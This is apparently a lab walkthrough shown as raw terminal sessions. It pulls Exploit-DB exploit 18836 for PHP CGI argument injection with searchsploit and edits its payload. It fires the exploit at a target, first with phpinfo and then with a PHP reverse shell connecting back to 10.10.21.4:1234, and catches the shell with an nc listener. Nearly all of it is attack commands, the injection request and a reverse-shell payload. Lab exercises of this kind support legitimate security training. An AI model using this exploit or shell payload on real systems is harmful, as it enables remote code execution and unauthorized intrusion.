 ```
Papers: No Results
```

```
root@attackdefense:~# searchsploit -m 18836
  Exploit: PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection
      URL: https://www.exploit-db.com/exploits/18836
     Path: /usr/share/exploitdb/exploits/php/remote/18836.py
File Type: Python script, ASCII text executable

Copied to: /root/18836.py


root@attackdefense:~# vim 18836.py
```

```php
def cgi_exploit():
        pwn_code = """<?php phpinfo();?>"""
```

```
root@attackdefense:~# python 18836.py 10.0.26.110 80
POST /?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: 10.0.26.110
Content-Type: application/x-www-form-urlencoded
Content-Length: 18

<?php phpinfo();?>

'HTTP/1.1 200 OK\r\nDate: Mon, 15 May 2023 13:48:51 GMT\r\nServer: Apache/2.2.8 (Ubuntu) DAV/2\r\nX-Powered-By: PHP/5.2.4-2ubuntu5.10\r\n
```

```php
def cgi_exploit():
        pwn_code = """<?php $sock=fsockopen("10.10.21.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>"""
```

```
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

```
root@attackdefense:~# python 18836.py 10.0.26.110 80
POST /?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: 10.0.26.110
Content-Type: application/x-www-form-urlencoded
Content-Length: 75

<?php $sock=fsockopen("10.10.21.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>

'HTTP/1.1 200 OK\r\nDate: Mon, 15 May 2023 13:57:11 GMT\r\nServer: Apache/2.2.8 (Ubuntu) DAV/2\r\nX-Powered-By: PHP/5.2.4-2ubuntu5.10\r\nContent-Length: 0\r\nContent-Type: text/html\r\n\r\n'

```

